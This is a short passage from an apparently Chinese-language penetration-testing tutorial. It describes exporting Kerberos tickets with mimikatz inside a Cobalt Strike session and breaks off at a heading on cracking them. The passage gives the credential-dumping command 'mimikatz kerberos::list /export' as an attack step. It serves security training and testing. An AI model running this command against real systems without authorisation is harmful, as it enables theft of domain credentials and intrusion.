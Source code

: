 ### 4.3.5. 导出票据

这里使用mimikatz导出票据，导出后会在目录中出现相应的票据，这时候我们只需要使用cs自带的文件浏览查看即可。

```
mimikatz kerberos::list /export
```

![image-20230724092735368](assets/ukTXinha2sYbDqf.png)

![image-20230724093405513](assets/e1t8LzR3Cwybmxv.png)

### 4.3.6. 破解票据
